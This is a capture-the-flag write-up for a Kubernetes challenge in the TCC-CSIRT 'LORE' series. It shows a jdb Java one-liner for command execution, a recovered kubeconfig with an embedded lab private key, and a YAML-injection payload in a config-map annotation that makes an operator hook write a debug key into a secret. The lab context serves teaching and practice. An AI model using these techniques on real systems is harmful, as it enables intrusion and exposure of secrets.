

# Chapter 4: Uncle (6 points)

Hi, TCC-CSIRT analyst,

do you know the feeling when, after a demanding shift, you fall into lucid
dreaming and even in your sleep, you encounter tricky problems? Help a
colleague solve tasks in the complex and interconnected world of LORE, where it
is challenging to distinguish reality from fantasy.

* The entry point to LORE is at http://intro.lore.tcc.

See you in the next incident!

## Hints

* Be sure you enter flag for correct chapter.
* In this realm, challenges should be conquered in a precise order, and to
  triumph over some, you'll need artifacts acquired from others - a unique
  twist that defies the norms of typical CTF challenges.

## Solution

```text
4 Uncle

Sam, the machine hums,
Whirring gears in silent night,
Metal heart always beating.
```

Now it's time to compile the knowledge acquired from previous chapters.

The `cgit` server from [Chapter 1: Travel] contains a repository with source
code of `sam-operator` which we can browse on the website or retrieve using
a git client.

```console
$ git clone http://cgit.lore.tcc/cgit.cgi/sam-operator/
Cloning into 'sam-operator'...
```

We can explore the source code to find out the following:
* The application (`sam-operator/web/samweb/app.py`) processes the submitted
  "Project request" form and
  * generates a random `txid`
  * creates a Kubernetes config map in namespace `sam-queue` called
    `request-${txid}`, containing form values (`name`, `quota`) in annotations
* There's a python hook running that listens on `ConfigMap Added` event and
  post-processes the config map to update it and also generate a secret with
  the same name
* The `/status` enpoint of the application has `txid` stored in session
  variables and prints the content of both the config map and the secret. In
  addition to that, if the secret contains `debug` key in the `data`, the
  `/status` prints also the session and config information, which contains the
  flag.

Therefore we need to find a way to enforce creation of `debug` key in the
secret.

The hook (`sam-operator/hooks/00-hook.py`) uses the following logic to create a
secret and update a config map.

```python
UPDATE_TEMPLATE = """
---
apiVersion: v1
kind: ConfigMap
metadata:
  name: "{name}"
  namespace: "{queue_ns}"
data:
  storage: "{storage}"
---
apiVersion: v1
kind: Secret
metadata:
  name: "{name}"
  namespace: "{queue_ns}"
stringData:
  storage: "{storage}"
  access_token: "{access_token}"
  quota: "{quota}"
"""

subprocess.run(
    ["kubectl", "apply", "-f", "-"],
    input=UPDATE_TEMPLATE.format(
        name=ctx['object']['metadata']['name'],
        queue_ns=QUEUE_NS,
        storage=storage,
        access_token=access_token,
        quota=pquota,
    ).encode()
)
```

Since the string `format()` function does not do any escaping, it should be
possible to inject it by carefully crafted `quota` value.

Unfortunately, our `cgit` service account token that we used in
[Chapter 3: Bounded] does not have sufficient permissions, so we'll need to
look for something else.

We'll exploit the `jdb` ability to evaluate Java one-liners that return a value
and display the result to list files on the filesystem the same way that we
solved [Chapter 3: Bounded] (i.e. by creating a tunnel via [Chapter 2: Origins]
host). E.g. in order to call `ls` we can evaluate the following via `jdb`:

```java
print new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("ls").getInputStream())).lines().collect(java.util.stream.Collectors.joining ("\n"))
```

After some time and multiple `ls`/`find`/... invocations, we'll come across
`/mnt/kubecreds-jacob.config` file. After we print it and replace `\n` and
other special characters from `jdb` output with corresponding values, we'll
end up with this content (which we can save as `kubecreds-jacob.config`).

```yaml
apiVersion: v1
clusters:
- cluster:
    certificate-authority-data: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSURCVENDQWUyZ0F3SUJBZ0lJZmNPcWJvVVFTUDh3RFFZSktvWklodmNOQVFFTEJRQXdGVEVUTUJFR0ExVUUKQXhNS2EzVmlaWEp1WlhSbGN6QWVGdzB5TkRBNE1qVXhOVFF6TXpSYUZ3MHpOREE0TWpNeE5UUTRNelJhTUJVeApFekFSQmdOVkJBTVRDbXQxWW1WeWJtVjBaWE13Z2dFaU1BMEdDU3FHU0liM0RRRUJBUVVBQTRJQkR3QXdnZ0VLCkFvSUJBUURGSnovZndKL3pUUWY3WUxLYy9hb00rc25LanN2UnBDUUN0YkZzUTRJSmlWQ3pVV0lqbFE1eEJTME4KMHBTaFJDcUZySSsrb0RyVlZMS2NtUXlQQkVCVlliWG93MFhqZ2t5QU5LU3l3YWl4eno5QnloNXk0MElSTGw2Mgorbi8xSmkzVnBUMWFzZ3V5c0VOLzNQU1NiR2VkTVZ6bzJsV0xEdjAwZlQ1b2p1eGo5ZDJveFAwY0dZWDRobVFYCnBlTjhlRDhJQTIxYnNzamYza0ZwYVhrSjlJTDExd3Q0QjdjV2ZYNHNjYWdEZmJZSmlwUHd3VEZCWmZRRGlhMFoKbkgyUThtUTJ5ZEcvWHZtUFBFc1Z2dmJMYy9CdXk2REFVZnkvMzRZdXg4c1ZnUk5DamY1SmMwV09PVU5WNG05aAp3emQ3V2lOclo3MndGU3hlTjE0d0FUY0tXNFp2QWdNQkFBR2pXVEJYTUE0R0ExVWREd0VCL3dRRUF3SUNwREFQCkJnTlZIUk1CQWY4RUJUQURBUUgvTUIwR0ExVWREZ1FXQkJTdko1MkJLZDNsMkQwNXF1MmpxRHFCeFd1RjhEQVYKQmdOVkhSRUVEakFNZ2dwcmRXSmxjbTVsZEdWek1BMEdDU3FHU0liM0RRRUJDd1VBQTRJQkFRQWRZSUQ0OUhCaQp6U00rdVdtUVFaSkU4Z3I2UTJzejZQTHErbGVQQW9jL2Z5c0JZM1k1RVNSNjRSNkM1eU9VRnRGa2p0N29SZ2RzCkRqcVE2eUtweWd2R3J5dHdxQUZORisyRnN2WlpLUVovK09aZE1Ta3EvTWRDZCt2cXZqZW5LL0cvaWdaTzFzM2QKWEZaNmxWOGlOVFFvaXkrWEdOV3FLajNiTEoyQXRQR1lUS1kvejZjN2pETDB6RlZ3SFc0bVQ1NVBpQ3RXYThvbgo2R1lrZWhZaWNmK1ZWZzFZV0tsdUNWcnVPSTJQT2V2bCtGYXJFckkzeWsxVW5pcC9NNDU5dWpzMWgyQ1RrRlBhCndiM2JKMjZwellKSG5oc2dRTE1wd241a2JIQ2IxRU96UmlqRzJDaVdXdFM5eGtDN0taMU9kenFoZ29wQU16M3EKd3hlSncyLzlKWVV2Ci0tLS0tRU5EIENFUlRJRklDQVRFLS0tLS0K
    server: https://10.99.24.81:6443
  name: kubernetes
contexts:
- context:
    cluster: kubernetes
    user: jacob
  name: jacob@kubernetes
current-context: jacob@kubernetes
kind: Config
users:
- name: jacob
  user:
    client-certificate-data: LS0tLS1CRUdJTiBDRVJUSUZJQ0FURS0tLS0tCk1JSURKRENDQWd5Z0F3SUJBZ0lSQUtuQ3ZUSTVySGZJUHRYTU9xeURub2N3RFFZSktvWklodmNOQVFFTEJRQXcKRlRFVE1CRUdBMVVFQXhNS2EzVmlaWEp1WlhSbGN6QWVGdzB5TkRBNE1qVXhOVFE0TlRoYUZ3MHlOVEE0TWpVeApOVFE0TlRoYU1DNHhIREFNQmdOVkJBb1RCV1JsZG1Wc01Bd0dBMVVFQ2hNRmFtRmpiMkl4RGpBTUJnTlZCQU1UCkJXcGhZMjlpTUlJQklqQU5CZ2txaGtpRzl3MEJBUUVGQUFPQ0FROEFNSUlCQ2dLQ0FRRUFrQlRqQjFUQzNDUEwKMHVMdU9CWTRKSGhuL2FUdU9uV1B0bysrSFUxN29KYUc2OHZSSHdjU28xY0VQNkJJVk4zd25TYTN2ZGpiVEVrVApnSjRGL2p2aFJLSk9laHdHWGRCWDJQV3ZFQm1IUkxOQmxuekltRnFscjNodXRMZFBIcC9lSlo5c0Y2ZXU3ZG5zCmhhL0M3eTlwbVl2UDRhTTBoYmVmL0lyNUhLdG8wR2JBOVpUbEhmZmI0dnlZSkFhdFdTRTYwTUNabGxQRDB2b2oKZjY4UVZNektHMmMzRDYzMTF4eThLR3ZHUzYxTUtaSG14aElDWE4rVFpKV1VWNkZIemxWWW14NVRYcFNmZTRXRQpOem1EWUsxU1RSdXhERDRnc09KMUVmNTJJQ2ZhNDRlZnBFdmNWSnhZNmhHc0hyMTRxWGYxQzUzKytrcFRTbWxzClJRdkx4eStqbHdJREFRQUJvMVl3VkRBT0JnTlZIUThCQWY4RUJBTUNCYUF3RXdZRFZSMGxCQXd3Q2dZSUt3WUIKQlFVSEF3SXdEQVlEVlIwVEFRSC9CQUl3QURBZkJnTlZIU01FR0RBV2dCU3ZKNTJCS2QzbDJEMDVxdTJqcURxQgp4V3VGOERBTkJna3Foa2lHOXcwQkFRc0ZBQU9DQVFFQXVZa2VySGdadmxkT2hZWkVBQmR5VjJ2VWUzMlRTckdXCktwbFJKaGJaaDZZU0RpOTB5UVovdWRNaVFERzVGcDV0YXVneWtkUUF4ZEw2U2dGL29lUmRHTHN3TnhZSzd4ZjQKTGtKeDM2RWtzb1FQZ3lUY1ZSRW9RQ2xnUjIwTFlSaFh2alg2ZE1BbDNHbzhEV01ORDNSa1laVGVCVFBkb0x2awpLUUt4VVQxcVplaklaei9QUko4UUt4bGhxZHV3TUY1bGNVbjM4QTl1S0J0S0FSak5JSUFXdDFXQzNHVmFIWnlNCkc5V2RSUnNQRWdFeFc1MnRSN2NUZlBtWENsU3YvU21OdVFjVWhvWk04TFNzcHZUTTNmN2dwVmFuWDdTTEZvL2YKWkVGem8rWnBwd3Y5VTF6T3ArY2c5R2lCaWxldHJUbjZtektQd2dKbzRsT3h6OXpDRTFBdFVBPT0KLS0tLS1FTkQgQ0VSVElGSUNBVEUtLS0tLQo=
    client-key-data: LS0tLS1CRUdJTiBQUklWQVRFIEtFWS0tLS0tCk1JSUV2QUlCQURBTkJna3Foa2lHOXcwQkFRRUZBQVNDQktZd2dnU2lBZ0VBQW9JQkFRQ1FGT01IVk1MY0k4dlMKNHU0NEZqZ2tlR2Y5cE80NmRZKzJqNzRkVFh1Z2xvYnJ5OUVmQnhLalZ3US9vRWhVM2ZDZEpyZTkyTnRNU1JPQQpuZ1grTytGRW9rNTZIQVpkMEZmWTlhOFFHWWRFczBHV2ZNaVlXcVd2ZUc2MHQwOGVuOTRsbjJ3WHA2N3QyZXlGCnI4THZMMm1aaTgvaG96U0Z0NS84aXZrY3EyalFac0QxbE9VZDk5dmkvSmdrQnExWklUclF3Sm1XVThQUytpTi8KcnhCVXpNb2JaemNQcmZYWEhMd29hOFpMclV3cGtlYkdFZ0pjMzVOa2xaUlhvVWZPVlZpYkhsTmVsSjk3aFlRMwpPWU5nclZKTkc3RU1QaUN3NG5VUi9uWWdKOXJqaDUra1M5eFVuRmpxRWF3ZXZYaXBkL1VMbmY3NlNsTkthV3hGCkM4dkhMNk9YQWdNQkFBRUNnZ0VBQnlKUm4zSk45N0o2RENZYVg0S1NJeFFuS2dMNW5NRm5iVVd1eHlxbi9XcVcKb2FSRTVZRm5KZGxRSjRwYktvQ1d3bUZCWmRBUUE3WDJsajY4MHpySnk2a3hzNUFockpGOVdBdktNRVRqVXI2QgpkOThUMjU5Wlp0ZlN1M1g4SCtzUWg5SmQrc25kdW44NDIrRzVDRGpUeEx1TWZvS2pQaCs2ZHptMlhmb0t4WTdOCjVVd0RPdURHYjNmVXhsZDJZcSswUCtxWUdxcjZUWjY5aUZZMVNERHQxdkV6dUhDcHJmeDlyZk0wbjdXdDU5SmoKSmwxVWpDeXU1elhSbU9sZ0xUK3NLdUdBOUlGTGRRcTF2Zi9zSFczZFZ2Ykpnam5FN2dpR2ZvYTlTMDc0TzFibgpocEFBaU9wNEVGalFoaXkzV1d3L2lpdXliRkRlbkFhcC9rZHJyWm9xS1FLQmdRREcxWENoYnlWSGRTL3FMVUhNCmdMV280dW9XY1lUTXJNdm1RamxHelhYWHR0UWdEdCtZd1JXTnFKdFJrQkc0dkVabDJ1cXdUeDlleDRwUFdSSXAKL1pPd2JnNVBmNE1GZkc0K0dZeU83YlVxVGRLU0tNa1Y1eEszUFU0VGtoanpCR042dFpQNDUxZDV4azN5TUFpdwpyV2FEdk05SHhDS2tTZkRRbFRCY3hCcDA5UUtCZ1FDNWdaUXJLQk8zL1VmUEFXYUw4b2FpY25jaHhhanhRNXAzCkQ1RDBwbndhRmNKemFZcm5GK2h3ejcxUnRreFNPVWh0Mkx2MUZLeksxRjVIRVJtNFpFczFsVTJRRHl3Y25OdmkKNVByUGxGZDViUU12c1BIK0dqNTJXaE1YWGs4QVRhZjdLWnVqUzVVYTM5bHViMXVYN2VaSzJ1WUZPN3V3TVlUKwpFV21FM09sKzJ3S0JnQy9EVC9ZSG0vM3BZYVF3VVBFT0xoVXV4U3ExQkVDaWRheVBWZkR6SkE2NGhZWlo3RTVtCmU0WDI3YkNQR2lLMVgzZlNPYlEybllPSURXcDRMQXZZTlNVWm11aHY2Z3BrVkpzb1NnSi9pWmhxNzExYTNNc2QKSWZyUWlEUGRVWTczQytxTE9jdDl6eDZhaTFqVlB4RXA1a2xaRHJYZm9LNjBjRnU2cXM1dDhTa05Bb0dBWmxtZgpKWnlNSEtTclBRUjV6dGMxLzJVR1krVEp6S3ZQQ3NmVTQ1Y0R1K1NyajcvNHVuNVBhZ2JFWHRRbEVleTNFSnhYClArWnpXOG1HWnRHQmptSVB1UFd5Z0x4T1MwOGtadkNOallBOEx5dTlhVS9JaExsNEl4YVpsL2dad0lJWUg1U2EKWWFOdkZnL1J5SU82Vm40VTVOSVh2V1Z5cmNqMHByVjJzYTZ0U2FjQ2dZQnBKb1UvYzc1NVFTQi9uTVNpUmxuRQpUVkJsWkIvMkExL01pYzJoU2syVXJuajhUN0dIZmM1TEp0VmNNZEJyS1h4ckE5OXNEUHFwclB2UzcyVkl0VE9ZCitsckdmYVh0bUtpUDFXUnVXNllpTUFScTBBM1Q1SVdacTBlRlVYNCthNVdvK0N1d2pUNmp5V3lrM0doVUNQUFIKWnZQL2REdmRmRTBOVm1HT0phaFltdz09Ci0tLS0tRU5EIFBSSVZBVEUgS0VZLS0tLS0K
```

The Kubernetes server `https://10.99.24.81:6443` listed in the config file is
accessible from our local PC, so there is no need for tunnelling anymore. With
`kubectl` installed, we can check what permissions in `sam-queue` namespace
this configuration file gives us.

```console
$ ./kubectl.exe auth can-i --list --namespace=sam-queue --kubeconfig kubecreds-jacob.config
Resources                                       Non-Resource URLs   Resource Names   Verbs
configmaps                                      []                  []               [create delete]
selfsubjectreviews.authentication.k8s.io        []                  []               [create]
selfsubjectaccessreviews.authorization.k8s.io   []                  []               [create]
selfsubjectrulesreviews.authorization.k8s.io    []                  []               [create]
                                                [/api/*]            []               [get]
                                                [/api]              []               [get]
                                                [/apis/*]           []               [get]
                                                [/apis]             []               [get]
                                                [/healthz]          []               [get]
                                                [/healthz]          []               [get]
                                                [/livez]            []               [get]
                                                [/livez]            []               [get]
                                                [/openapi/*]        []               [get]
                                                [/openapi]          []               [get]
                                                [/readyz]           []               [get]
                                                [/readyz]           []               [get]
                                                [/version/]         []               [get]
                                                [/version/]         []               [get]
                                                [/version]          []               [get]
                                                [/version]          []               [get]
```

BINGO! We have the capability to create and delete config maps.

Let's now submit a project request via http://sam.lore.tcc/ and note the `txid`
of our project request, which is displayed on the `status` page (e.g. `0b1c7fdbadc08ce9f8114f19a8c6648d`).

Knowing `txid` bound to our session we can prepare our evil config map file on
local filesystem with the following content, where `quota` value inserts a
closing quotation mark, a newline, 2 spaces of indentation (indentation is
known because we have the YAML template from Python source code) and a required
`debug` key with the value of `"1`, which will be closed by the YAML template
for the created secret.

```json
{
  "apiVersion": "v1",
  "kind": "ConfigMap",
  "metadata": {
    "name": "request-0b1c7fdbadc08ce9f8114f19a8c6648d",
    "namespace": "sam-queue",
    "annotations": {
      "sam-operator/project_name": "writeup",
      "sam-operator/project_quota": "1GB\"\n  debug: \"1"
    }
  },
  "data": {
  }
}
```

Now we can delete the existing config map generated by the system and create a
new one with our evil payload.

```console
$ kubectl delete cm request-0b1c7fdbadc08ce9f8114f19a8c6648d --namespace=sam-queue --kubeconfig kubecreds-jacob.config
configmap "request-0b1c7fdbadc08ce9f8114f19a8c6648d" deleted
$ kubectl create -f evil.json --kubeconfig kubecreds-jacob.config
configmap/request-0b1c7fdbadc08ce9f8114f19a8c6648d created
```
Once the hook processes it, refreshing the `/status` page in the browser should
display the FLAG.



[Chapter 1: Travel]: ../lore-1-travel
[Chapter 2: Origins]: ../lore-2-origins
[Chapter 3: Bounded]: ../lore-3-bounded
